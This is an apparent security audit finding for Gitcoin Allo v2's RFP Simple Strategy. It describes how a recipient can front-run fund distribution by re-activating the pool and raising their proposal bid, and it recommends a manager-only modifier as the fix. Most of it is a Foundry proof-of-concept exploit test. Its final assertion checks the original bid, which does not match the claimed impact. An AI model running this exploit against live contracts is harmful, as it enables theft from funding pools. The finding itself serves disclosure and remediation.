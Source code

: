 Rich Jade Wolf

high

# Recipients can disrupt the RFP Simple Strategy by changing a proposal bid to front-run distribution calls
## Summary
The recipient can change the initial proposal bid during distributions in the RFP Simple Strategy.

## Vulnerability Detail

1. The recipient sets the proposal bid upon registration.
2. They follow a standard flow: set milestones, allocate funds, and submit upcoming milestones.
3. The recipient scans the mempool for transactions calling the `distribute` function.
4. They front-run the call and change the initial proposal bid to another value.

## Impact
Recipient receives more funds than initially expected

## Code Snippet
```solidity
function testFrontRunAttack() public {
    // The attacker registers as a recipient and sets the proposal bid to 0.2 ether
    address attacker = recipient();
    uint256 proposalBid = 0.2 ether;

    Metadata memory metadata = Metadata({ protocol: 1, pointer: "metadata" });

    bytes memory data = abi.encode(attacker, false, proposalBid, metadata);

    vm.prank(address(allo()));
    address recipientId = strategy.registerRecipient(data, attacker);

    RFPSimpleStrategy.Recipient memory _recipient = strategy.getRecipient(recipientId);
    console.log("Attacker address: %s", _recipient.recipientAddress);
    console.log("Attacker proposal bid: %s", _recipient.proposalBid);

    // Set milestones, first 70%, second 30%
    __setMilestones();

    // Allocate
    vm.prank(address(allo()));
    strategy.allocate(abi.encode(recipientId), address(pool_admin()));

    // Submit the upcoming milestone
    vm.prank(attacker);
    strategy.submitUpcomingMilestone(metadata);

    // Fund the pool
    vm.deal(pool_admin(), 1e19);
    vm.prank(pool_admin());
    allo().fundPool{ value: 1e19 }(poolId, 1e19);

    // --- Start attack transaction
    vm.prank(attacker);
    strategy.setPoolActive(true);
    console.log("Switch pool status to active");

    // Top up the proposal bid to the maximum
    data = abi.encode(attacker, false, strategy.maxBid(), metadata);

    // Update the proposalBid
    vm.prank(address(allo()));
    strategy.registerRecipient(data, attacker);

    _recipient = strategy.getRecipient(recipientId);
    console.log("Attacker proposal bid after attack: %s", _recipient.proposalBid);

    vm.prank(attacker);
    strategy.setPoolActive(false);
    console.log("Switch pool status to inactive");
    // --- End attack transaction

    // Distribute
    vm.prank(address(allo()));
    strategy.distribute(new address[](0), "", pool_admin());

    assertEq(attacker.balance, proposalBid * 7e17 / 1e18);
}

```

## Tool used
`forge test`
The snippet can be copied to `test/foundry/strategies/RFPSimpleStrategy.t.sol` and executed

## Recommendation
Consider using the `onlyPoolManager(msg.sender)` modifier for the [setPoolActive](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L219) function